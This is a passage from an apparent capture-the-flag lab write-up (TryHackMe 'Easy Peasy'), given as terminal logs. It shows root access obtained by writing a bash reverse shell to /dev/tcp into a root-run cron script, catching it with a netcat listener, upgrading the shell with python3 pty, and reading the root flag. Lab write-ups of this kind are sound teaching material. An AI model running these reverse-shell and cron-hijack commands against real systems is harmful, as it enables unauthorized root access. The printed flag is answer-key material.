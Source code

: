 ```
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh 
#!/bin/bash
# i will run as root
```

**boring@kral4-PC:/var/www$ echo "/bin/bash -i >& /dev/tcp/10.8.16.42/1234 0>&1" > .mysecretcronjob.sh**


```
lelouch@lelouch-IdeaPad-3-15IML05-D:~/Tryhackme/Easy Peasy$ sudo nc -lvnp 1234
[sudo] password for lelouch: 
Listening on 0.0.0.0 1234
Connection received on 10.10.113.65 50794
bash: cannot set terminal process group (1445): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# python -c 'print("hello")'
python -c 'print("hello")'

Command 'python' not found, but can be installed with:

apt install python3       
apt install python        
apt install python-minimal

You also have python3 installed, you can run 'python3' instead.

root@kral4-PC:/var/www# python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@kral4-PC:/var/www# ls
ls
html
root@kral4-PC:/var/www# cat /root/root.txt 
cat /root/root.txt 
cat: /root/root.txt: No such file or directory
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ls
ls
root@kral4-PC:~# ls -al
ls -al
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 May  9 13:38 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt 	
cat .root.txt 
flag{63a9f0ea7bb98050796b649e85481845}
root@kral4-PC:~# 
```



